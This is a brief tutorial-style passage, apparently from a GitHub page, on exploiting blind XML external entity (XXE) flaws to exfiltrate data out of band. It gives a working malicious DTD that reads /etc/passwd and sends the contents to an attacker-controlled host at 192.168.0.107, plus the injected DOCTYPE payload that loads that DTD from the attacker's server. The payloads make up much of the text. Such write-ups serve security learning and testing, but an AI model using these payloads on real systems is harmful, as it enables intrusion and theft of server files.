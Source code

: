 # Exploiting blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious **DTD** to exfiltrate the contents of the `/etc/passwd` file is as follows:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://192.168.0.107/?x=%file;'>">
%eval;
%exfiltrate;
```
So, this is maliciuous .dtd file for blind XXE vulnerability. Attacker can simply start http python web server and send this malicious payload:
```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://192.168.0.107/malicious.dtd"> %xxe;]>
```
This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed.

